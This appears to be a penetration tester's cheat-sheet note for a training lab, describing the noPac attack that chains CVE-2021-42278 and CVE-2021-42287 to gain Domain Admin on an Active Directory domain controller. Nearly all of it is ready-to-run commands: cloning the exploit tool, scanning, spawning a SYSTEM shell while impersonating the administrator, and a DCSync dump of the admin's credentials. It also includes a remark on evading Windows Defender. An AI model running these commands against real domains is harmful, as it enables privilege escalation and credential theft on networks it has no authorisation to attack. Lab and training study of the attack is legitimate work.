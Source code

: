 -- -
abuse CVE 2021-42278 and CVE 2021-42287 in conjunction to get System on a DC. Gets you Domain Admin in a couple of commands. You abuse the fact that a  user can register (by default) 10 computers to the domain and the Kerberos Privilege Attribute Certificate (PAC) to trick kerberos and the DC into giving you domain admin. An in-depth explination can be found [here](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
#### Requirements
[[Install Toolkit|Install Impacket toolkit]]
```bash
# Get NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git
```
#### Scanning for NoPac
```bash
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
#### Spawn Shell
```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
*Note: the tool will save the ticket to your attack machine's disk inside the current working directory as the ccache file.*
#### DCSync the Built-in Admin Account
[[DCSync Attack| In-depth Explanation]]
```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
#### Windows Defender considerations
the shell is created using smbexec.py, which will get caught if used vanilla on a target system protected by Windows Defender. So if opsec is to be considered, or a stealth approach is part of the engagement, you will need further preparations to get around Windows Defender. 